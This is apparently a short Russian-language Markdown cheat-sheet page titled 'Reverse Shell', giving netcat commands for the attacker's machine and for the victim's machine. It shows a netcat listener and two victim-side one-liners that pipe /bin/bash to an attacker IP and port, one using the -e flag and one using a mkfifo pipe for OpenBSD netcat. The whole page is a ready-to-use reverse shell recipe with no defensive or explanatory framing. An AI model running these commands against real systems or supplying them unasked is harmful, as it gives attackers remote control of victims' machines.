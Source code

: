 ```yaml
---
title: Reverse Shell
description: Используя Traditional и OpenBSD Netcat
date: 2022-12-09T15:02:00+05:00
tags: [linux, ssh, hack]
---
```

## Машина атакующего
```shell
nc -lvp <port>
```
## Машина жертвы (Traditional Netcat)
```shell
nc <attacker-ip> <port> -e /bin/bash
```

## Машина жертвы (OpenBSD Netcat)
```shell
mkfifo /tmp/rev; nc <attacker-ip> <port> < /tmp/rev | /bin/bash 2>&1 | tee /tmp/rev > /dev/null
```

